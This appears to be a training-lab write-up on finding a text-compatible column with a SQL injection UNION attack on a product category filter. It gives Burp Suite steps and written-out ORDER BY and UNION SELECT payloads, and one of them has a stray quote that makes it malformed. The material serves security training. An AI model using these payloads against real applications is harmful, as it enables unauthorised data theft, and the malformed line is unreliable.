

# Lab: SQL injection UNION attack, finding a column containing text

- This lab contains a SQL injection vulnerability in the product category filter.
- The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.
- To construct such an attack,you first *need to determine the number of columns returned by the query.*
- The lab will provide a random value that you need to make appear within the query results.
- To solve the lab, perform a *SQL injection UNION attack* that returns an additional row containing the value provided.

# This technique helps you determine which columns are compatible with string data. 

# Use Burp Suite to intercept and modify the request that sets the product category filter.

# Determine the number of columns that are being returned by the query.Use this payload in `category` parameter.
```
' ORDER BY 3--
```

OR

```
'+UNION+SELECT+NULL,NULL,NULL--
```

# Try replacing each null with the random value provided by the lab:
```
Make the database retrieve the string: 'sxtVhr'
```

```
'+UNION+SELECT+'sxtVhr',NULL,NULL--
'+UNION+SELECT+NULL,'sxtVhr',NULL--
'+UNION+SELECT+NULL',NULL,'sxtVhr'--
```
# If an error occurs, move on to the next null and try that instead.
